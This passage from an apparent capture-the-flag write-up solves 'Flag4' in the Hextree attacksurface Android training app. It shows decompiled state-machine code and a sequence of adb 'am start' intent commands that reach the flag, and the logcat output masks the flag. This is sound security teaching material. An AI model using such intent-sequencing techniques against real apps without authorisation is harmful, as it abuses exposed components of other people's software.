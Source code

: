 ```java
            }
        } else if ("BUILD_ACTION".equals(action)) {
            setCurrentState(State.BUILD);
            Toast.makeText(this, "Transitioned from PREPARE to BUILD", 0).show();
            Log.i("Flag4StateMachine", "Transitioned from PREPARE to BUILD");
            return;
        }
    } else if ("PREPARE_ACTION".equals(action)) {
        setCurrentState(State.PREPARE);
        Toast.makeText(this, "Transitioned from INIT to PREPARE", 0).show();
        Log.i("Flag4StateMachine", "Transitioned from INIT to PREPARE");
        return;
    }
    Toast.makeText(this, "Unknown state. Transitioned to INIT", 0).show();
    Log.i("Flag4StateMachine", "Unknown state. Transitioned to INIT");
    setCurrentState(State.INIT);
}
```

If you’re a good `script kiddie`, you’ll recognize that this is just a series of nested conditions. To trigger the desired behavior, we need to call the actions in the correct order.

You could do this with a Proof of Concept (POC) app using Android Studio, but I managed to achieve it using the `am` manager, which simplifies things. Here’s how:

We need to start from the topmost action and proceed in the following order:

1. `PREPARE_ACTION`
2. `BUILD_ACTION`
3. `GET_FLAG_ACTION`
4. `INIT_ACTION`

:::caution
**The order is crucial!** Missing the order will cause the process to fail.
:::

```bash
adb shell am start -n io.hextree.attacksurface/.activities.Flag4Activity -a PREPARE_ACTION; \
adb shell am start -n io.hextree.attacksurface/.activities.Flag4Activity -a BUILD_ACTION; \
adb shell am start -n io.hextree.attacksurface/.activities.Flag4Activity -a GET_FLAG_ACTION; \
adb shell am start -n io.hextree.attacksurface/.activities.Flag4Activity -a INIT_ACTION

```

:::tip
If this block of commands doesn’t work, try running them one at a time.
:::

```bash
03-01 15:34:17.535  3570  3570 I Flag4   : success() called!
03-01 15:34:17.546  3570  3570 I Flag4   : HXT{xxxxxxxxxxxxxxx}
```

---

# Flag5Activity
